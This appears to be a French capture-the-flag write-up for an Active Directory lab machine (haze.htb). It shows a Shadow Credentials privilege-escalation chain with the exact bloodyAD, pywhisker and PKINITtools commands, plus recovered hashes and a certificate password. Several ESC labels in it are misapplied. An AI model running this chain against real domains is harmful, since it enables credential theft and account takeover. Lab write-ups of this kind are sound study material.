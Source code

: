 # Shadow Credentials

***

L’utilisateur `mark.adams`, initialement non privilégié, a escaladé ses privilèges en abusant des ACLs sur un compte gMSA (`Haze-IT-Backup$`), récupéré ses credentials, puis les a utilisés pour :

1. Prendre **possession d’un groupe (`Support_Services`)**
2. S’octroyer les droits **GenericAll** sur ce groupe
3. Abuser du droit sur un **compte utilisateur ciblé (`edward.martin`)**
4. Injecter une **Shadow Credential (ESC6)** via `pyWhisker`
5. Obtenir un **TGT Kerberos via PKINITtools**
6. Extraire le **NT hash** final d’`edward.martin` → full compromise.

***

### <mark style="color:red;">🎯</mark> <mark style="color:red;"></mark><mark style="color:red;">**Objectif**</mark>

* Escalader vers un utilisateur avec des privilèges plus élevés (potentiellement DA).
* Rester furtif sans modifier de mot de passe ni déclencher d’alerte.
* Exploiter les **ACL Active Directory** et **Shadow Credentials** (T1556.002).

***

### <mark style="color:red;">🧱</mark> <mark style="color:red;"></mark><mark style="color:red;">**Étapes techniques détaillées**</mark>

***

#### <mark style="color:green;">🔐 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Utilisation du gMSA**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`Haze-IT-Backup$`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**(credentials volés)**</mark>

Récupérés précédemment via `gMSADumper.py`.

```bash
Haze-IT-Backup$:::735c02c6b2dc54c3c8c6891f55279ebc
```

***

#### <mark style="color:green;">🏗️ 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Changement de propriétaire d’un groupe (**</mark><mark style="color:green;">**`Support_Services`**</mark><mark style="color:green;">**)**</mark>

```bash
bloodyAD set owner 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Haze-IT-Backup$ devient **owner du groupe**, donc a un droit implicite **Full Control**.

***

#### <mark style="color:green;">🎯 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du droit**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`GenericAll`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**sur le groupe**</mark>

```bash
bloodyAD add genericAll 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Assure la capacité de modifier les membres du groupe.

***

#### <mark style="color:green;">➕ 4.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du gMSA comme membre du groupe**</mark>

```bash
bloodyAD add groupMember 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Utilisé comme levier pour légitimer sa position dans le domaine et préparer la suite.

***

#### <mark style="color:green;">🧬 5.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Injection d’un certificat Shadow Credential (ESC6)**</mark> <mark style="color:green;"></mark><mark style="color:green;">sur</mark> <mark style="color:green;"></mark><mark style="color:green;">`edward.martin`</mark>

```bash
pywhisker.py --target "edward.martin" --action "add" --filename test1
```

* Génére un **KeyCredential** (DeviceID) lié au compte cible.
* Modifie l’attribut `msDS-KeyCredentialLink` de l’utilisateur.

***

#### <mark style="color:green;">🪪 6.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Obtenir un TGT via PKINIT avec le certificat injecté**</mark>

```bash
gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass dxQ9JVHZr4Ic5XQLMwUM haze.htb/edward.martin edward.martin.ccache
```

➡️ Obtenu grâce à la clef d’auth injectée.

***

#### <mark style="color:green;">🔓 7.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Extraction du NT hash d’**</mark><mark style="color:green;">**`edward.martin`**</mark>

```bash
export KRB5CCNAME=edward.martin.ccache
getnthash.py -key <AS-REP key> haze.htb/edward.martin
```

✅ Résultat :

```
NT Hash: 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

***

### <mark style="color:red;">🛠️</mark> <mark style="color:red;"></mark><mark style="color:red;">**Chaîne d’exploitation ASCII**</mark>

```
[ mark.adams (user) ]
     |
     | → abuse ACL (ESC7)
     v
[ Haze-IT-Backup$ (gMSA) ]
     |
     | → become owner of group
     v
[ Support_Services (group) ]
     |
     | → write msDS-KeyCredentialLink on
     v
[ edward.martin (target user) ]
     |
     | → Shadow Credential injected (ESC6)
     v
[ Kerberos TGT → NT hash extraction ]
     |
     v
[ Full compromise / lateral movement ]
```

***

